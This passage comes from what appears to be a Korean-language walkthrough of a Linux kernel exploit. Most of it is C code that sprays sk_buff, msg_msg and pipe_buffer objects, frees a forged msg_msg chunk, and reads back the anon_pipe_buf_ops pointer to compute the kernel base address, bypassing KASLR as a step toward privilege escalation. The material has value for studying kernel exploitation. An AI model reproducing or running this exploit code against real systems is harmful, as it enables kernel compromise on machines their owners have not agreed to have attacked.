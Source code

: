 ```c
            {
                perror("sk_buff_spray: failed write buffer");
                exit(0);
            }
        }
    }
```

이때, `m_list.next` 와 `m_list.prev`는 우리가 릭했던 다른 `msg_msg`의 `m_list`를 적용시키면 될 것이다. 

그 다음 적절하게 수행된 fake chunk를 `msg_msg`를 통해 할당 해제한다. 

```c
    msgrcv(spray_queue[corrupted_queue_index], read_buffer,  SPRAY_SIZE_KMALLOC_1024, MSG_TYPE_FAKE, IPC_NOWAIT);
```

이제 `pipe_buffer`를 스프레이 해주자.

```c
    for (i = 0; i < SPRAY_PIPE_FDCNT; i++)
    {
        if(pipe(pipe_fds[i]) < 0)
        {
            perror("leak_base_addr: failed create pipe\n");
            exit(0);
        }

        if(write(pipe_fds[i][1], "A", 1) < 0)
        {
            perror("leak_base_addr: failed write pipe buffer\n");
            exit(0);
        }
    }
```

이제 spray 했던 `sk_buff`를 읽어 `anon_pipe_buf_ops_addr`를 읽으면 된다. 

```c
    printf("leak_base_addr: read sk_buff\n");
    for (i = 0; i < SPRAY_SOCKET_FDCNT; i++)
    {
        for(j = 0; j < SPRAY_COUNT_PER_SOCKET_FD; j++)
        {
            if (read(socket_fd[i][1], read_buffer, 1024 - 0x140) < 0)
            {
                perror("leak_base_addr: sk_buff read failed\n");
                exit(0);
            }
            if (((uint64_t*)read_buffer)[2] != MSG_TYPE_FAKE)
            {
                anon_pipe_buf_ops_addr = ((uint64_t*)read_buffer)[2];
                printf("leak_base_addr: anon_pipe_buf_ops_addr - 0x%llx\n", anon_pipe_buf_ops_addr);
                goto find;
            }
        }
    }
find: 
    if ((anon_pipe_buf_ops_addr & 0xffff000000000000) != 0xffff000000000000)
    {
        printf("leak_base_addr: leak kernel base failed\n");
        exit(0);
    }

    kernel_base_addr = anon_pipe_buf_ops_addr - ANON_PIPE_BUF_OPS_ADDR;
    printf("leak_base_addr: kernel base - %llx\n", kernel_base_addr);
```